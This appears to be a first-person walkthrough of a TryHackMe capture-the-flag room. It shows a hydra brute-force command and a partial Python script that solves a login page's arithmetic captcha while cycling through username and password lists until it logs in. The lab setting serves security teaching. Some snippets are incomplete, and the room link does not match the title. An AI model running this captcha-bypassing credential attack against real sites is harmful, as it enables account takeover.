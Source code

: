 
# Capture! CTF from TryHackMe Walkthrough

Welcome! Thanks for checking out my walkthrough. This room was simple to understand, but needed a little bit of custom automation that could potentially take longer than some rooms. I will walkthrough what I did in order to crack the username and password for this website. [Here is the link to the CTF on TryHackMe](https://tryhackme.com/r/room/catpictures2).


## Recon

Included in the room was a zip file which included two text files: `usernames.txt` and `passwords.txt`. This pretty much told me from the start that I would be cracking some usernames and passwords.

When I first saw the login screen on the web application, my assumptions were confirmed.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/1.png?text=First+Pic)

I saw that trying to login with wrong credentials left an error at the bottom of the page.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/2.png?text=Second+Pic)

In order to see what was going on under the hood, I opened up Burp Suite and checked out the raw HTTP request. I could see the data sent and what the response was from the server.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/3.png?text=Third+Pic)

With the information I gathered I decided to use [hydra](https://github.com/vanhauser-thc/thc-hydra) to try to crack both usernames and passwords. First trying to crack the usernames, I entered the command:
```bash
hydra -L usernames.txt -p password -t 64 -s 80 10.10.204.24 http-post-form "/login:username=^USER^&password=^PASS^:Error\: The user " 
```
Here I used the `usernames.txt` to enumerate the usernames. After trying this for a few minutes, I noticed that this wasn't returning what I would hope. After troubleshooting hydra and trying to figure out what potential command mistake I made, I looked at the website again only to find that the login page had changed!

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/5.png?text=Fifth+Pic)

A captcha! Uh-oh. I've never dealt with breaking one of these before. After playing around in Burp Suite a while longer, I learned that the captcha from the previous page was the answer for the new login page. So the data needed to post correctly would be `username`, `password`, and `captcha`. In order to crack this login, it seems that I would have to write a custom script.

## Scripting

From what I learned about the web application, I had to create a script that would do the following:

 - [ ]  Load both `usernames.txt` and `passwords.txt` into the program.
 - [ ]  Trigger the captcha.
 - [ ]  Find way to identify the elements in the captcha:
   - [ ]  Opperands
   - [ ]  Operant
 - [ ]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [ ]  Once username is found, enumerate `passwords.txt`
 - [ ]  Print out correct username and password.

I used these tasks to break my code into smaller parts. The actual code is available at the top of this page, but you can also access it [here](https://github.com/wsmaxcy/capture/blob/master/capture.py).

 - [X]  Load both `usernames.txt` and `passwords.txt` into the program.
```python
# load list of usernames
def load_users():
	users = list()
	with open("usernames.txt") as f:
		for line in f:
			users.append(line.rstrip('\n'))
	print('[+] Loaded ' + str(len(users)) + ' usernames to attempt.')
	return users

# loads list of passwords
def load_passwords():
	passwords = list()
	with open("passwords.txt") as f:
		for line in f:
			passwords.append(line.rstrip('\n'))
	print('[+] Loaded '+ str(len(passwords)) + ' passwords to attempt.')
	return passwords

```
- [x]  Trigger the captcha.
```python
# sends 10 requests in order start the captcha
for i in range(10):
	data = {
	'username': 'username',
	'password': 'password'
	}
	r = requests.post(url,data=data)
	print("[+] Sent "+ str(i+1) + "/10 requests to trigger captcha.", end = '\r')
```
 - [x]  Find way to identify the elements in the captcha:
   - [x]  Opperands
   - [x]  Operant
```python
# username and password
person = ''
password = ''

# data used for post request
	length = len(password) -1
	data = {
	'username': username,
	'password': password,
	'captcha': cap
	}

	# Data used to find captcha
	r = requests.post(url,data=data)
	eq = r.text[1839 + length:1847 + length]
	
	# if statement that returns when the page is authenticated
	if eq == '':
		print('[+] Password found: ' + password)
		return -1

	num1 = int(eq[:3])
	num2 = int(eq[6:8])
	opp = eq[4]

    # finding out which operator to use for captcha equasion
	if opp == '+':
		cap = num1 + num2
	elif opp == '-':
		cap = num1 - num2
	else:
		cap = num1 * num2

    return cap
```
 - [x]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [x]  Once username is found, enumerate `passwords.txt`
```python
# iterates through usernames list
for name in users:
	cur = send_request(name, 'password', cur)
	if cur == -1:
		person = person + name
		break;

passwords = load_passwords()

# iterates through password list
for p in passwords:

	cur = last_request(person, p, cur)
	if cur == -1:
		password = password + p
		break
```
- [x]  Print out correct username and password.
```python
# final print of username and password
print('[+] Username: ' + person)
print('[+] Password: ' + password)
```

After a lot of trial and error building the script, it ended up cracking both the username and the password.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/6.png?text=Sixth+Pic)

When I logged on with the information, I got the flag.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/7.png?text=Sixth+Pic)

Thanks for checking out my writeup! It's my first one, so if there are any comments or criticisms, I would love to hear them.

## Additional Insights

This CTF challenge provided a great opportunity to delve deeper into the mechanics of web application security. One key takeaway from this experience is the importance of understanding how different elements on a web page interact. By closely analyzing the login mechanism and the captcha system, I was able to devise a strategy that bypassed conventional brute-forcing limitations.

A significant portion of this challenge involved crafting a custom script to handle captcha validation. This highlights the necessity of adaptability in cybersecurity, as attackers often need to develop bespoke solutions to overcome unique obstacles. It also underscores the value of automation in penetration testing. Writing scripts not only speeds up the process but also allows for more precise and repeated testing.

Additionally, this challenge emphasized the role of tools like Burp Suite and Hydra in reconnaissance and attack execution. While tools are invaluable, understanding their output and knowing when to pivot strategies is crucial. Initially, Hydra didn't yield the expected results, prompting a reevaluation of the approach, which led to the discovery of the captcha mechanism.

Finally, this CTF reinforced the importance of thorough testing and iterative development when creating automation scripts. Each step, from loading user lists to solving captcha equations, required careful debugging and validation. This iterative process is reflective of real-world penetration testing, where patience and meticulous attention to detail often lead to successful exploitation.

## Feedback

If you have any feedback, please reach out to me at will@willmaxcy.com.



[![portfolio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://willmaxcy.com/)
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/willmaxcy)
